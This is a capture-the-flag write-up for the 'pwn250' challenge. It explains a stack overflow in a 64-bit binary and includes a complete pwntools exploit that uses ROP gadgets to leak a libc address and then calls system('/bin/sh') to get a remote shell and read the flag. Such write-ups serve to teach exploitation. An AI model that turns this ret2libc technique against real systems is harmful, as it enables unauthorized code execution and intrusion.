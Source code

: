 # Pwn250 (pwnage 250)
Author: muffinx

Description:

```
Oh, you can still solve this too?
please try harder

task : nc 54.153.19.139 5255
libc : https://drive.google.com/file/d/0B5gmSy61RokzSFk1clNoWGRveWs/
```

Binary type:

```
pwn250: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b92b9ef9aa21452b83be93778ed175c6c37de92d, not stripped
```

Binary security measurements:

```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```


The code is pretty straight forward:
```c++

ssize_t here()
{
  char buf; // [sp+0h] [bp-80h]@1

  return read(0, &buf, 0x100uLL);
}

int __cdecl main(int argc, const char **argv, const char **envp)
{
  here();
  write(1, "Hello, World\n", 0xDuLL);
  return 0;
}
```

We also got a libc.so from the challenge, so we'll do some ret2libc.
First we need to locate where the libc is loaded, so we can use it for ret2libc.

We use rop to leak the address of read in the .got.plt, we then subtract it with the
offset of read in the libc.so to get the loaded libc adress.

We'll do this by using the write function, here's an example how it is used by the application to
print "Hello, World":

```
.text:00000000004005AB                 mov     edx, 13         ; n
.text:00000000004005B0                 mov     esi, offset aHelloWorld ; "Hello, World\n"
.text:00000000004005B5                 mov     edi, 1          ; fd
.text:00000000004005BA                 call    _write
```

edx = holds number of bytes to write
esi = holds the address to read
edi = where to write the bytes to (file descriptor)

We can set these values by using this wonderful rop gadget:

```
0x000000000040056a : pop rdi ; pop rsi ; pop rdx ; ret
```

So we set:

rdx = 0x8 (read 8 bytes)
rsi = 0x0601020 (read got.plt)
rdi = 0x01 (stdout)

Now jumping to write, we have successfully leaked libc.
To pause the program and to make a second overflow, we jump back into the vulnerable function "here" @ 0x0400571.

After that, with the calculated libc base address, we can do a classical ret2libc.

```
0x0400633 # pop rdi ; ret
*address of /bin/sh*
*address of system*
```

Here's my exploit:

```python

#!/usr/bin/env python

from pwn import *

#libc = ELF('/lib/x86_64-linux-gnu/libc-2.19.so')
libc = ELF('./libc.so')

#r = process('./pwn250')
r = remote('54.153.19.139', 5255)

#gdb.attach(r, '''
#set follow-fork-mode child
#break *0x0400591
#continue
#continue
#''')

payload = 'A'*136
payload += p64(0x040056a) # pop rdi ; pop rsi ; pop rdx ; ret
payload += p64(0x01) # rdi = 1 (fd)
payload += p64(0x0601020) # rsi -> read got.plt
payload += p64(0x08) # rdx = 8 (number of byte)
payload += p64(0x0400430) # write
payload += p64(0x0400571) # here()

r.sendline(payload)


addr_unpacker = make_unpacker(64, endian='little', sign='unsigned')

leaked_read_addr = r.recv(8)
# rebase libc
libc.address = addr_unpacker(leaked_read_addr) - libc.symbols['read']

print 'leaked read at: ' + hex(libc.symbols['read'])
print 'leaked system at: ' + hex(libc.symbols['system'])
print 'leaked /bin/sh at: ' + hex(next(libc.search('/bin/sh\x00')))


payload2 = 'A'*136
payload2 += p64(0x0400633) # pop rdi ; ret
payload2 += p64(next(libc.search('/bin/sh\x00'))) # rdi -> /bin/sh
payload2 += p64(libc.symbols['system']) # system

r.sendline(payload2)
r.interactive()
```

Oh, we got a shell!

```
$ cat /home/pwn250/flag
Bugs_Bunny{Did_Ropgadget_help_pwner!_maybe_we_have_smart_guys_here!!}
```
